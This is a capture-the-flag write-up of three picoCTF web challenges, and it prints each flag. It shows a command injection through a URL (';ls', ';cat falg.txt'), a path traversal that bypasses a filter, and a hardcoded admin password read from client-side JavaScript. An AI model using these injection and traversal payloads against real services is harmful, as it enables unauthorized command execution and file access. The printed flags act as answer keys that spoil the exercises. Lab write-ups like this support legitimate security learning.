 # Caas
## Description
Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)

## Approach
After some googling, i found that **Cowsay** is a program that generates ASCII art pictures of a cow with a message.
I used the `curl` command to data transfer over various networks. 
`curl "https://caas.mars.picoctf.net/cowsay/pixie"`
![Screenshot from 2023-11-08 16-16-51](https://github.com/pixie-nukes/picoCTF/assets/94845416/2b683655-8bf9-4d61-a6aa-869d42947f10)
Using the `ls` command to list the files:
`curl "https://caas.mars.picoctf.net/cowsay/pixie;ls"`
![Screenshot from 2023-11-08 16-19-46](https://github.com/pixie-nukes/picoCTF/assets/94845416/9eca701b-9c3c-4621-9cfb-ed11ddec70fb)
Using the `cat` command to view the `falg.txt` file:
`curl "https://caas.mars.picoctf.net/cowsay/pixie;cat%20falg.txt"`
Recieved the flag.

## Output
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}

# Forbidden paths
## Description
Can you get the flag? Here's the [website](http://saturn.picoctf.net:58179/).
We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths.
Can you get past the filter to read the flag?

## Approach
According to the description, we know to go up 4 directories because `/usr/share/nginx/html/` is 4 subdirectories from `/`
So clicking "Read" displays the file.
`../../../../../flag.txt`

## Output
picoCTF{7h3_p47h_70_5ucc355_6db46514}

# Local Authority
## Description
Can you get the flag? Go to this [website](http://saturn.picoctf.net:59126/) and see what you can discover.

## Approach
- I right clicked on the website and clicked on `view page source` which led me to [this_file](view-source:http://saturn.picoctf.net:59126/).
- I again right clciked on `login.php` which led me to this [website](view-source:http://saturn.picoctf.net:59126/login.php).
- I again right clicked on `secure.js` which led me to this [link](view-source:http://saturn.picoctf.net:59126/secure.js).
- It showed this
  
`function checkPassword(username, password)
 {
  if( username === 'admin' && password === 'strongPassword098765' )
  {
    return true;
  }
  else
  {
    return false;
  }
}`
- I used the username and password to login into the website and finall i got the flag

## Output
picoCTF{j5_15_7r4n5p4r3n7_a8788e61} 
